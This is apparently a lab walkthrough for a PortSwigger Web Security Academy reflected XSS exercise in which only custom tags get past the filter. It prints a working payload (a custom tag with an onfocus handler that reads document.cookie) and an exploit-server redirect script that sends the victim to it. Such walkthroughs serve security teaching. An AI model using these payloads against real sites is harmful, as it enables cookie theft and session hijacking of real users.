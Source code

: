 ```yaml
---
sidebar_position: 3
image: "https://www.cloudflare.com/img/learning/security/threats/cross-site-scripting/xss-attack.png"
---
```


--> Here most of the tags are blocked. only custom tags are allowed so we have to use payloads with custom tags

With custom tag, we can use most of the events but in most of the events user have to do something to trigger the payload. But then i found that `focus` is very easy to do and that's why i chosen focus payload

--> Also i found same payload for focus on this website :

- https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting

which was like this :

```html
%3Cxss+id%253dx+onfocus%253dalert(document.cookie)+tabindex%253d1%3E#x
```

--> Now goto `exploit server` and now we will redirect the user to our payload and we can do this with [location](https://www.w3schools.com/js/js_window_location.asp) so let's use it but we have to write it between `<script>` tags to run js in our response.

==> So i made this payload:

```html
<script>
  location =
    "https://your-lab-id.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x";
</script>
```

After that click `store` and then `send to victim`
